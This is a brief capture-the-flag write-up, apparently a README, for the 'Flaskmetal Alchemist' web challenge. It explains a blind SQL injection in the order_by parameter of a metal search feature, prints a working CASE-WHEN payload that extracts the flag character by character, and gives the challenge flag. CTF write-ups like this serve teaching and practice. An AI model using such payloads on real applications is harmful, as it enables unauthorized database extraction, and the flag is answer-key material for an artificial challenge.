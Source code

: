 ## Flaskmetal Alchemist
> Edward has decided to get into web development, and he built this awesome application that lets you search for any metal you want. Alphonse has some reservations though, so he wants you to check it out and make sure it's legit.

Source: [fma.zip](fma.zip?raw=true)  
App have a sql injection bugs (order by type) in module __Seach metals__, parameter _order_by_  
![Alt text](fma.png?raw=true "Title")  
With Table structure found in source code, (table name __flag__ and column name _flag_), i generate payload for exploit sqli:  
```
search=Be&order=(case+when+(select+unicode(substr(flag,1,1))+from+flag)%3d102+then+atomic_number+else+name+end)
```
Exploit code in [exploit.py](exploit.py?raw=true)  
Flag: `flag{order_by_blind}`  